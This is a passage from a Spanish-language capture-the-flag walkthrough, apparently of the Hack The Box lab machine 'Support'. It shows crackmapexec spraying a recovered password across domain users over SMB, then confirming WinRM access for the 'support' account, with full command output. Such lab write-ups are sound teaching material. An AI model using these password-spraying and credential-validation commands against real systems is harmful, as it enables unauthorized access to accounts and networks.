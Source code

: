 Intentemos:
```bash
crackmapexec smb 10.10.11.174 -u users -p 'Ironside47pleasure40Watchful' --continue-on-success
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [-] support.htb\Administrator:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\Guest:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\krbtgt:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\ldap:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
SMB         10.10.11.174    445    DC               [-] support.htb\smith.rosario:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\hernandez.stanley:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\wilson.shelby:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\anderson.damian:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\thomas.raphael:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\levine.leopoldo:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\raven.clifton:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\bardot.mary:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\cromwell.gerard:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\monroe.david:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\west.laura:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\langley.lucy:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\daughtler.mabel:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\stoll.rachelle:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
SMB         10.10.11.174    445    DC               [-] support.htb\ford.victoria:Ironside47pleasure40Watchful STATUS_LOGON_FAILURE 
```
Excelente, al parecer esa contraseña es del **usuario support**. 

Comprobemoslo con **crackmapexec** y de paso probemos si tienen activo (que lo más seguro es que sí) el **servicio WinRM**:
```bash
crackmapexec winrm 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
SMB         10.10.11.174    5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.10.11.174    5985   DC               [*] http://10.10.11.174:5985/wsman
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```
